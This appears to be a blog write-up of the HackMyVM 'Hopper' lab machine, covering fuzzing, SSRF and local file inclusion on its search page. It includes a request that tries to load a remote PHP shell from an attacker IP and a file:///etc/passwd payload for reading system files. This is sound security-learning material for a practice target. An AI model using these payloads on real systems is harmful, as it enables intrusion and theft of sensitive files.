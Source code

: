 ```yaml
---
layout: post
title:  "HackMyVM: Hopper"
date:   2022-01-06 17:00:00 +1100
category: hacking
---
```


This is [Hopper](https://hackmyvm.eu/machines/machine.php?vm=Secrets). It's Medium rated, I liked it (a lot), and I didn't manage it all on my own. There are some important learnings here.

## Ports
SSH and HTTP only.

### HTTP
Fuzzing reveals our first target: **http://10.10.10.54/advanced-search/**. The page says:

>Welcome to the private search  
Here you will be able to load any page you want. You won't have to worry about revealing your IP anymore!

We have a search box, which submits GET requests to **page.php** using the **path** parameter. I try to include a remote PHP shell and while the server will request and load the file, it doesn't execute/include it.

{% highlight shell %}
GET /advanced-search/path.php?path=http%3A%2F%2F10.10.10.2%3A9090%2Fshell.php
{% endhighlight %}

We can request localhost URLs, which suggests SSRF. I try various path traversals, but can't get upstream of the webroot. 

We have an LFI using the **file** parameter, e.g:

``
/advanced-search/path.php?path=file:///etc/passwd
``

We have two users, edward and henry. We can use the LFI to get /var/log/wtmp and it appears *henry* has never logged in, so presumably we want *edward*. 

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/hopper]
└─# last -f ./wtmp                                                                      
reboot   system boot  4.19.0-17-amd64  Wed Jan  5 20:01   still running
root     tty1                          Thu Jul 29 13:19 - down   (00:01)
reboot   system boot  4.19.0-17-amd64  Thu Jul 29 13:17 - 13:20  (00:03)
reboot   system boot  4.19.0-17-amd64  Wed Jul 28 05:50 - 13:20 (1+07:30)
root     tty1                          Wed Jul 28 05:49 - down   (00:00)
edward   pts/1        192.168.1.75     Wed Jul 28 05:39 - 05:49  (00:10)
# etc
{% endhighlight %}
